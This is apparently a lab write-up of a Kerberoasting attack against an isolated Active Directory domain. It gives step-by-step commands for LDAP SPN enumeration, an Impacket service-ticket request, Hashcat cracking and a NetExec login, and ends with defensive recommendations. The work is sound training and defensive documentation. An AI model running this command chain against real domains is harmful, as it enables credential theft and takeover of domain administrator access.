







# Incident 19 — Active Directory Kerberoasting to Domain Admin

**Category:** Active Directory Security / Kerberoasting / Credential Access / Privilege Escalation  
**Environment:** Isolated VirtualBox Lab  
**Attacker:** Kali Linux — `192.168.42.20`  
**Target:** Windows Server Domain Controller (DC1) — `192.168.42.40`  
**Domain:** `redteamlab.local`  
**Date:** October 24, 2026  
**Status:** Successfully Completed

---

## 1. Executive Summary

This incident documents a successful Kerberoasting attack against a deliberately vulnerable Active Directory environment.

Starting with the credentials of a standard domain user (`gambit`), I enumerated Service Principal Names (SPNs), identified a service account (`sqladmin`), requested a Kerberos service ticket, and performed offline password cracking using Hashcat.

The recovered password belonged to an account with highly privileged Active Directory group memberships, including **Domain Admins** and **Enterprise Admins**.

The final stage used NetExec to successfully authenticate to the Domain Controller over SMB and confirm administrative access.

**Final result:** Administrative access to DC1 was validated through a Kerberoasting attack chain.

No remote shell or command execution was required to demonstrate the impact.

---

## 2. Attack Workflow

The following diagram summarizes the complete attack sequence.


**Attack chain:**

`labnmap → ldapsearch → Impacket GetUserSPNs → Hashcat → ldapsearch → NetExec`

| Phase | Tool | Objective |
|---|---|---|
| 1 | labnmap | Identify exposed services |
| 2 | ldapsearch | Discover accounts with SPNs |
| 3 | Impacket GetUserSPNs | Request a Kerberos service ticket |
| 4 | Hashcat | Recover the service account password offline |
| 5 | ldapsearch | Identify the compromised account's privileges |
| 6 | NetExec | Validate administrative access to DC1 |

---

## 3. Lab Environment

The experiment was conducted in a private, isolated VirtualBox network.

| System | IP Address | Role |
|---|---|---|
| Kali Linux | `192.168.42.20` | Attacking machine |
| Windows Server DC1 | `192.168.42.40` | Active Directory Domain Controller |
| Domain | `redteamlab.local` | Active Directory domain |
| gambit | Standard domain user | Initial authenticated identity |
| sqladmin | Privileged service account | Kerberoasting target |

### Scope and Authorization

All activities were performed against virtual machines under my control.

The environment was intentionally configured for cybersecurity research, offensive security training, and Active Directory exploitation practice.

The credentials used in this lab are synthetic and do not belong to any production environment.

### Authorized Scanning — labnmap

For network scanning, I use `labnmap`, a custom Python wrapper around Nmap designed to restrict scans to authorized laboratory IP addresses.

Its purpose is to help prevent accidental scanning of systems outside my permitted testing scope.

The terminal evidence shows the wrapper displaying an authorization indicator before executing Nmap.

The Python source can be included separately in the repository to document and review its exact validation logic.

---

## 4. Phase 1 — Network Discovery

### Objective

Identify the Kali Linux network interface connected to the Active Directory environment and verify that the Domain Controller is reachable.

### Commands

```bash
ip -br -4 addr
```

- `ip` — Displays network information.
- `-br` — Uses brief output formatting.
- `-4` — Displays IPv4 information only.
- `addr` — Displays interface addresses.

Kali was connected to the Active Directory lab using:

```text
eth2 — 192.168.42.20/24
```

Next, I performed host discovery:

```bash
nmap -sn 192.168.42.0/24
```

- `-sn` — Performs host discovery without port scanning.
- `192.168.42.0/24` — Specifies the authorized laboratory subnet.

The scan identified DC1 at:

```text
192.168.42.40
```

Finally, I verified basic connectivity:

```bash
grc ping -c 4 192.168.42.40
```

- `grc` — Colorizes terminal output.
- `ping` — Sends ICMP Echo Requests.
- `-c 4` — Sends four requests.
- `192.168.42.40` — Target Domain Controller.

### Result

```text
4 packets transmitted
4 received
0% packet loss
```

The Domain Controller was reachable from Kali.

### Evidence



---

## 5. Phase 2 — Domain Controller Service Enumeration

### Objective

Identify network services relevant to Active Directory authentication and Kerberoasting.

### Command

```bash
labnmap -sS -sV -T4 192.168.42.40
```

### Command Breakdown

| Argument | Purpose |
|---|---|
| `labnmap` | Custom authorized-lab Nmap wrapper |
| `-sS` | TCP SYN scanning |
| `-sV` | Service identification and version detection |
| `-T4` | Faster Nmap timing profile |
| `192.168.42.40` | Authorized Domain Controller target |

### Findings

| Port | Service | Relevance |
|---|---|---|
| TCP 53 | DNS | Domain name and service resolution |
| TCP 88 | Kerberos | Authentication and ticket distribution |
| TCP 389 | LDAP | Active Directory object enumeration |
| TCP 445 | SMB | Windows authentication and access validation |
| TCP 3268 | LDAP Global Catalog | Directory information |
| TCP 5985 | WinRM / HTTP | Windows remote management |

Nmap identified the target as a Windows Domain Controller belonging to:

```text
redteamlab.local
```

### Why This Matters

Kerberoasting relies on Kerberos service tickets.

The presence of Kerberos on port 88 and LDAP on port 389 provided the services needed for the next phases:

1. LDAP to identify accounts associated with SPNs.
2. Kerberos to obtain service tickets for those accounts.

### Evidence



---

## 6. Phase 3 — LDAP SPN Enumeration

### Objective

Identify Active Directory accounts associated with a Service Principal Name (SPN).

An SPN is an identifier used by Kerberos to locate a particular service and its associated account.

### Command

```bash
ldapsearch -x -H ldap://192.168.42.40 \
  -D "gambit@redteamlab.local" -W \
  -b "DC=redteamlab,DC=local" \
  "(servicePrincipalName=*)" \
  sAMAccountName servicePrincipalName
```

### Command Breakdown

| Argument | Purpose |
|---|---|
| `ldapsearch` | Queries an LDAP directory |
| `-x` | Uses simple LDAP authentication |
| `-H` | Specifies the LDAP server URI |
| `ldap://192.168.42.40` | Connects to DC1 using LDAP |
| `-D` | Supplies the authentication identity |
| `gambit@redteamlab.local` | Standard domain account |
| `-W` | Prompts for the account password |
| `-b` | Sets the directory search base |
| `DC=redteamlab,DC=local` | Domain naming context |
| `(servicePrincipalName=*)` | Finds objects with an SPN attribute |
| `sAMAccountName` | Returns the account name |
| `servicePrincipalName` | Returns the associated SPN |

The backslash (`\`) at the end of a command line allows the shell command to continue onto the next line.

The asterisk (`*`) inside the LDAP filter matches any present attribute value.

### Findings

The query returned five matching objects.

The most relevant result was:

```text
dn: CN=sqladmin,CN=Users,DC=redteamlab,DC=local
sAMAccountName: sqladmin
servicePrincipalName: DC1/sqladmin.REDTEAMLAB.local:64123
```

Other entries included computer accounts such as `DC1$`, `ALICE-PC$`, and `BOB-PC$`, as well as the special Kerberos account `krbtgt`.

### Why sqladmin Was Selected

Unlike the discovered computer accounts, `sqladmin` was an ordinary Active Directory user object with a registered SPN.

This made it a suitable candidate for requesting a Kerberos service ticket and examining the strength of its password.

The SPN value identifies a service registration; it does not independently prove that a corresponding network service is currently listening on port 64123.

### Evidence



---

## 7. Phase 4 — Kerberos Service Ticket Request

### Objective

Request a service ticket associated with `sqladmin`, using only the credentials of the standard user `gambit`.

### Kerberoasting Explained

In Active Directory, Kerberos authentication involves a Key Distribution Center (KDC), usually running on a Domain Controller.

After authenticating, a domain user can request a service ticket for a service identified by an SPN.

Part of that service ticket is encrypted using a key derived from the service account's password.

If the ticket uses a suitable encryption type and the service account has a weak password, the encrypted material can be tested against password candidates offline.

This is the foundation of **Kerberoasting**.

Importantly, the account requesting the ticket and the account whose password protects the service ticket are not necessarily the same.

In this experiment:

- `gambit` was the authenticated ticket requester.
- `sqladmin` was the service account being targeted.

### Command

```bash
impacket-GetUserSPNs redteamlab.local/gambit \
  -dc-ip 192.168.42.40 \
  -request-user sqladmin \
  -outputfile ~/Scripts/sqladmin.tgs
```

### Command Breakdown

| Argument | Purpose |
|---|---|
| `impacket-GetUserSPNs` | Impacket utility for SPN enumeration and ticket requests |
| `redteamlab.local/gambit` | Authenticated domain identity |
| `-dc-ip` | Specifies the Domain Controller IP address |
| `192.168.42.40` | DC1 |
| `-request-user` | Requests a ticket for the selected account |
| `sqladmin` | Target service account |
| `-outputfile` | Saves extracted ticket material |
| `~/Scripts/sqladmin.tgs` | Local output file on Kali |

The password entered at the prompt was the password of `gambit`, not `sqladmin`.

### Result

Impacket successfully identified the service principal:

```text
DC1/sqladmin.REDTEAMLAB.local:64123
```

The exported ticket material began with:

```text
$krb5tgs$23$*sqladmin$REDTEAMLAB.LOCAL$...
```

### Understanding the Format

- `$krb5tgs$` — Kerberos TGS material in a password-cracking tool format.
- `23` — Kerberos encryption type 23, RC4-HMAC.
- `sqladmin` — Service account associated with the requested ticket.

The output did not contain the plaintext service account password.

It contained cryptographic material suitable for offline verification of password candidates.

The message:

```text
[-] CCache file is not found. Skipping...
```

did not prevent successful ticket extraction.

### Evidence



---

## 8. Phase 5 — Offline Password Cracking

### Objective

Attempt to recover the password of `sqladmin` using the Kerberos ticket data saved in the previous phase.

### Tool

**Hashcat**

Hashcat tests password candidates against cryptographic material.

For this attack, the verification took place locally on Kali Linux.

No repeated password authentication attempts were sent to DC1 during the cracking process.

### Command

```bash
hashcat -m 13100 -a 0 \
  --potfile-path ~/Scripts/lab019.pot \
  ~/Scripts/sqladmin.tgs ~/Utils/rockyou.txt
```

### Command Breakdown

| Argument | Purpose |
|---|---|
| `hashcat` | Password recovery tool |
| `-m` | Selects the hash format |
| `13100` | Kerberos 5 TGS-REP, etype 23 |
| `-a` | Selects the attack mode |
| `0` | Straight dictionary attack |
| `--potfile-path` | Uses a dedicated file for recovered results |
| `~/Scripts/lab019.pot` | Lab-specific potfile |
| `~/Scripts/sqladmin.tgs` | Exported ticket material |
| `~/Utils/rockyou.txt` | Password candidate dictionary |

### Why Use a Dedicated Potfile?

Hashcat normally remembers recovered passwords in its potfile.

When the same hash is submitted again, Hashcat can immediately report that the result is already known instead of repeating the attack.

Using a separate potfile allows the experiment to be reproduced without modifying the primary Hashcat results database.

### Result

```text
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Recovered........: 1/1 (100.00%)
Progress.........: 2103296/14344384 (14.66%)
```

Recovered lab credential:

```text
Username: sqladmin
Password: Password45
```

Hashcat identified the password after processing approximately 2.1 million candidates from the 14.3-million-entry dictionary.

### Security Significance

The attack succeeded because the service ticket used RC4-HMAC and the service account password appeared in the chosen password dictionary.

The cracking process was performed offline, demonstrating how a weak service account password can be exposed without repeated authentication requests against the Domain Controller.

### Evidence



---

## 9. Phase 6 — Privilege Enumeration

### Objective

Determine whether the compromised service account had administrative privileges.

A successfully cracked password does not automatically imply administrator access.

The account's privileges must be verified separately.

### Command

```bash
ldapsearch -LLL -x -H ldap://192.168.42.40 \
  -D "gambit@redteamlab.local" -W \
  -b "DC=redteamlab,DC=local" \
  "(sAMAccountName=sqladmin)" \
  sAMAccountName memberOf
```

### Important Arguments

| Argument | Purpose |
|---|---|
| `-LLL` | Produces cleaner LDAP output |
| `(sAMAccountName=sqladmin)` | Selects the specific account |
| `memberOf` | Returns direct Active Directory group memberships |

The query still uses `gambit`, demonstrating that the group information could be obtained without authenticating as the privileged account.

### Findings

The `sqladmin` account was a member of:

```text
Group Policy Creator Owners
Domain Admins
Enterprise Admins
Schema Admins
Administrators
```

### Impact

The most significant findings were:

**Domain Admins**

Grants powerful administrative privileges within the Active Directory domain.

**Enterprise Admins**

Provides highly privileged administrative capabilities across the Active Directory forest.

**Schema Admins**

Allows modification of the Active Directory schema.

These memberships substantially increased the potential impact of the recovered password.

### Evidence



---

## 10. Phase 7 — Administrative Access Validation

### Objective

Verify that the recovered credentials could authenticate against DC1 and that the compromised account possessed administrative access.

### Tool

**NetExec**

NetExec is a network security assessment tool that supports authentication and privilege validation across several Windows-related protocols.

For this phase, SMB was selected.

### Command

```bash
nxc smb 192.168.42.40 \
  -d redteamlab.local \
  -u sqladmin \
  -p 'Password45'
```

### Command Breakdown

| Argument | Purpose |
|---|---|
| `nxc` | Launches NetExec |
| `smb` | Selects the SMB protocol |
| `192.168.42.40` | Target Domain Controller |
| `-d` | Specifies the authentication domain |
| `redteamlab.local` | Active Directory domain |
| `-u` | Specifies the username |
| `sqladmin` | Compromised service account |
| `-p` | Supplies the password |
| `'Password45'` | Recovered laboratory password |

The single quotes preserve the password as a literal shell argument.

This direct password argument was used only with a synthetic credential in the isolated laboratory.

### Result

```text
[+] redteamlab.local\sqladmin:Password45 (Pwn3d!)
```

### Interpretation

- `[+]` — SMB authentication succeeded.
- `sqladmin` — The recovered service account was successfully authenticated.
- `Pwn3d!` — NetExec identified administrative access on DC1.

This was the final validation of the attack chain.

**Administrative access was confirmed, but no remote shell was opened and no commands were executed on the Domain Controller.**

### Evidence



---

## 11. Root Cause Analysis

The attack succeeded because several security weaknesses existed together.

### 11.1 Weak Service Account Password

The `sqladmin` password was present in a commonly used password dictionary.

This made offline recovery practical.

### 11.2 RC4-HMAC Service Ticket

The KDC returned ticket material using Kerberos encryption type 23.

This allowed the ticket to be processed with Hashcat mode 13100.

### 11.3 Excessive Account Privileges

The service account was assigned highly privileged Active Directory roles, including Domain Admins and Enterprise Admins.

The compromise of a single account therefore exposed powerful administrative credentials.

### 11.4 Standard User Could Request the Ticket

The initial account, `gambit`, was not an administrator.

Nevertheless, it could discover the service account's SPN and request the corresponding service ticket.

This behavior is part of normal Kerberos operation; the security failure arose from the weak password and excessive privileges associated with the targeted service account.

---

## 12. Security Recommendations

### Strong Service Account Credentials

Use long, randomly generated passwords for service accounts.

Avoid predictable passwords and passwords included in common dictionaries.

### Group Managed Service Accounts

Where supported, prefer Group Managed Service Accounts (gMSAs), which provide automatically managed service account passwords.

### Reduce Privileges

Avoid assigning Domain Admin or Enterprise Admin membership to ordinary service accounts.

Apply the principle of least privilege.

### Prefer Modern Kerberos Encryption

Prefer AES-based Kerberos encryption and reduce reliance on RC4 where compatibility allows.

### Monitor Kerberos Activity

Monitor unusual service ticket request patterns, including relevant Windows Security Event ID 4769 activity.

Detection should consider account behavior, encryption types, request volume, and environmental context rather than relying on a single event.

### Review Service Principal Names

Periodically audit SPNs, their associated accounts, service ownership, and account privileges.

### Improve Credential Security

Use regular service account reviews, secure credential management, and password rotation appropriate to the environment.

---

## 13. Lessons Learned

This laboratory reinforced several important concepts:

**Active Directory enumeration is not the same as exploitation.**

LDAP helped identify a potential target, but did not directly expose the target account's password.

**Kerberos service tickets can create an offline password attack opportunity.**

The requesting user did not need to know the password of the account associated with the service.

**Password recovery and privilege escalation are separate steps.**

Hashcat recovered a password, while LDAP established the account's privileged group memberships.

**Authentication and administrative access are not identical.**

NetExec was used to validate that the recovered credentials worked over SMB and that the account had administrative access on DC1.

**A single weak privileged service account can create a critical domain security risk.**

The combination of a crackable service account password and excessive Active Directory privileges was the decisive weakness.

---

## 14. Final Outcome

| Objective | Result |
|---|---|
| Identify DC1 | Success |
| Enumerate domain services | Success |
| Identify service account SPN | Success |
| Request Kerberos service ticket | Success |
| Extract ticket material | Success |
| Recover service account password | Success |
| Identify privileged group memberships | Success |
| Authenticate against DC1 over SMB | Success |
| Validate administrative access | Success |

### Final Assessment

**Incident 19 successfully demonstrated a Kerberoasting attack leading to validated administrative access on an Active Directory Domain Controller.**

The attack began with the credentials of a standard domain user and culminated in the successful authentication of a highly privileged service account.

The experiment highlights the security consequences of weak service account passwords, legacy Kerberos encryption, and excessive privileges.

---

## 15. Tools Used

| Tool | Purpose |
|---|---|
| Kali Linux | Offensive security workstation |
| VirtualBox | Isolated virtualization environment |
| labnmap | Custom authorized network scanning wrapper |
| Nmap | Host discovery and service enumeration |
| ldapsearch | LDAP enumeration and group membership discovery |
| Impacket GetUserSPNs | Kerberos service ticket request |
| Hashcat | Offline password recovery |
| rockyou.txt | Password dictionary |
| NetExec | SMB authentication and administrative privilege validation |

---

## 16. Repository Structure

```text
Incident-19-Active-Directory-Kerberoasting-to-Domain-Admin/
│
├── README.md
│
└── screenshots/
    ├── 01-network-discovery.png
    ├── 02-dc1-service-enumeration.png
    ├── 03-ldap-spn-enumeration.png
    ├── 04-kerberos-tgs-request.png
    ├── 05-hashcat-password-cracked.png
    ├── 06-sqladmin-group-membership.png
    ├── 07-administrative-access-validation.png
    └── Kerberoasting Workflow Infographic(1).png
```

---

## 17. Disclaimer

This project was conducted exclusively in an isolated, authorized cybersecurity laboratory using intentionally vulnerable virtual machines and synthetic credentials.

All systems involved were under the researcher's control.

The purpose of this documentation is cybersecurity education, offensive security methodology, and defensive awareness.

No third-party infrastructure or production environment was targeted.

---

**Incident 19 — Completed**  
**Technique:** Kerberoasting  
**Initial Privileges:** Standard Domain User  
**Recovered Account:** `sqladmin`  
**Validated Result:** Administrative Access to DC1  
**Environment:** Authorized Active Directory Laboratory
